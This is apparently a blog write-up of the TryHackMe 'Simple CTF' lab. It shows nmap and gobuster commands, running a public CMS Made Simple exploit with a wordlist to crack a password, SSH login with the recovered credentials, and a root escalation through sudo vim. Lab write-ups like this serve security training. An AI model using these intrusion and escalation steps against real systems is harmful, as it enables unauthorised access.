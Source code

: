 ```yaml
---
title: "Simple CTF TryHackMe"
date: "07-22-2021"
author: "Reda BELHAJ"
summary: "Simple CTF is a beginner level boot2root room from TryHackme made by Mr.Seth6797."
tags: ["Tryhackme", "Ctf", "Writeup"]
image: "/images/Simple/Simple.png"
---
```


## Enumeration
### Nmap Scan
The first step of my enumeration was a scan with **nmap**. by the command:

```
nmap 10.10.198.35 -sC 
```

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-22 13:14 EDT
Nmap scan report for 10.10.198.35
Host is up (0.11s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.174.180
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  EtherNetIP-1
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)

Nmap done: 1 IP address (1 host up) scanned in 40.71 seconds

```

The “Nmap Output” displayed `2` services running under port 1000 and ssh service running on the higher port.

### Gobuster Scan
I next decided to run a gobuster scan on the webserver to see if there were any interesting hidden directories, by the command:

```
gobuster dir -u http://10.10.198.35  -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,xml,php
```

![Gobuster](/images/Simple/gobuster.jpg)

## Exploring 

Browsing to ***http://10.10.198.35/simple*** gives us the version of CMS Made Simple:

![Version](/images/Simple/version.jpg)

I then searched for the cve on [exploit-db](https://www.exploit-db.com/exploits/46635) and found the cve with the exploit:

![CVE](/images/Simple/cve.jpg)

## Exploiting

Then I run the exploit using python (version 2.7) inside a virtual environment:

```
python cms_pa.py -u http://10.10.198.35/simple/ -c -w rockyou.txt
```

![Password](/images/Simple/password.jpg)

## User Flag

And now I tried to access SSH with the credentials that We found:

```
mitch@secret
```

```
ssh -p 2222 mitch@10.10.198.35
```

```
G00d *************
```

## Root Flag

So now I tried the infamous `sudo -l` comand to privilege escalate the system

```
sudo -l
```
And i found that **mitch** can run vim with root privileges with ***NOPASSWD***

```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

![SUID]("/images/Simple/suid.jpg")

And now we're root:

```
W3ll d*****************
```
